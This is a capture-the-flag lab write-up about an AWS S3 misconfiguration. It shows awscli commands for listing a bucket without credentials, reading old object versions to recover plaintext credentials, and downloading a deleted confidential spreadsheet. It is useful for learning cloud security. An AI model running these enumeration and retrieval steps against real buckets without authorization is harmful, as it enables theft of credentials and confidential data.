

### Scenario

Your team, renowned for its expertise in cloud security, has been enlisted by Huge Logistics to scrutinize their perimeter. Your main task? Investigate a specified IP range, noting that the address 16.171.123.169 is frequently mentioned in their public documentation. Unearth any potential security issues and provide a roadmap to bolster their defenses.

  

### Things provided in the lab 

|     |     |
| --- | --- |
| **Type** | **Value** |
| IP Address | 16.171.123.169<br> |

  

### Solution

With the IP provided in the lab objective `16.171.123.169` and opening it in a new browser, showcases kind of Login page out there and we don’t have any credentials handy in order to login actually 

  

  

  

But look into the source of the page, we can see that there is css content being loaded from the following s3 bucket `huge-logistics-dashboard` 

  

  

  

And now what we generally do?.. well we will enumerate it right and using `awscli` tool we can enumerate the s3 buckets with the following command: `aws s3 ls s3://<bucket_name> --no-sign-request` and remember utilising `--no-sign-request` meaning we don’t have setup any sort of credentials or anything.. kind of sending an unauthenticated request to a sensitive endpoint 

  

```sh
nits@FWS-CHE-LT-8869 % aws s3 ls s3://huge-logistics-dashboard --no-sign-request
PRE private/
PRE static/
```

  

Ok, we do have two different folders one is `private` and another one is `static` and by the name of it `private` folder we will definitely have something.. but in our case, nothing exists 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3 ls s3://huge-logistics-dashboard/private/ --no-sign-request
2023-08-16 23:55:59          0 
```

  

What happens if there are multiple version of objects exists and objects meaning an s3 bucket with a data.. and there is a concept called S3 bucket versioning.. 

  

You can ask what does it mean, let’s say your intern accidentally deleted a sensitive file from your s3 bucket and how will you recover.. where this comes in.. bucket versioning allows to have different versions of s3 bucket and in case something bad happens.. we can rollout to the previous version and data is restored 

  

We can check whether bucket versioning is enabled with the following command: `aws s3api get-bucket-versioning --bucket {BUCKET_NAME} --no-sign-request`⁠ but in our case, access is denied 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-bucket-versioning --bucket huge-logistics-dashboard  --no-sign-request

An error occurred (AccessDenied) when calling the GetBucketVersioning operation: Access Denied
```

  

But we do have access to return metadata of the s3 bucket versions using

`list-object-versions` and with the following command: `aws s3api list-object-versions --bucket huge-logistics-dashboard --no-sign-request`⁠ where will it show the changes happens in each file with versionId for each changes 

  

    

  

Going through the metadata and only metadata that his sensitive where i stumbled upon the changes related to file `static/js/auth.js` 

  

```json
{
            "ETag": "\"c3d04472943ae3d20730c1b81a3194d2\"",
            "Size": 244,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
            "IsLatest": true,
            "LastModified": "2023-08-12T20:43:43.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
}
```

  

Further more, we can run the following command to get more details about the `static/js/auth.js` file

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "static/js/auth.js" --version-id j2hElDSlveHRMaivuWldk8KSrC.vIONW --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "static/js/auth.js",
    "VersionIdMarker": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
    "Versions": [
        {
            "ETag": "\"7b63218cfe1da7f845bfc7ba96c2169f\"",
            "Size": 463,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "qgWpDiIwY05TGdUvTnGJSH49frH_7.yh",
            "IsLatest": false,
            "LastModified": "2023-08-12T19:13:25.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
        }
```

  

Now we can copy the versionId and replace it inside the parameter called `versionId` through the browser and once after replacing it, we now able to see the older version of the js file which leaks the credential in plain text 

  

   

  

With those credentials, we can able to login into some kind of financial dashboard and there is some stats and metrics in the homepage 

  

  

  

But in the profile section, we can see that there some added AWS credentials as note over there 

  

  

  

After setting up credentials, we can see that this belongs to `data-user` 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws sts get-caller-identity --profile pwnedlabs-007
{
    "UserId": "AIDATWVWNKAVEJCVKW2CS",
    "Account": "254859366442",
    "Arn": "arn:aws:iam::254859366442:user/data-user"
}
```

  

One another thing, we missed his a particular entry from listing object version is there is an entry called `DeleteMarkers` which means there is file existed inside `/private` directory but it was removed or deleted 

  

```json
"DeleteMarkers": [
        {
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            },
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
            "IsLatest": true,
            "LastModified": "2023-08-16T19:12:39.000Z"
        }
    ],
```

  

Now we can redo the same for private folder just like we did for `auth.js` file for gathering the getting versionId of excel file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "private/Business Health - Board Meeting (Confidential).xlsx",
    "VersionIdMarker": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
    "Versions": [
        {
            "ETag": "\"24f3e7a035c28ef1f75d63a93b980770\"",
            "Size": 24119,
            "StorageClass": "STANDARD",
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8",
            "IsLatest": false,
            "LastModified": "2023-08-16T19:11:03.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
        }
```

  

Now with the following command we can download the previous version of XLSX file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-object \
    --bucket huge-logistics-dashboard \
    --key "private/Business Health - Board Meeting (Confidential).xlsx" \
    --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" \
    --profile pwnedlabs-007 \
    "Business_Health_Board_Meeting_Confidential.xlsx"
```

  

Now open the XLSX file where we can get our flag content and lab is solved 

  

   
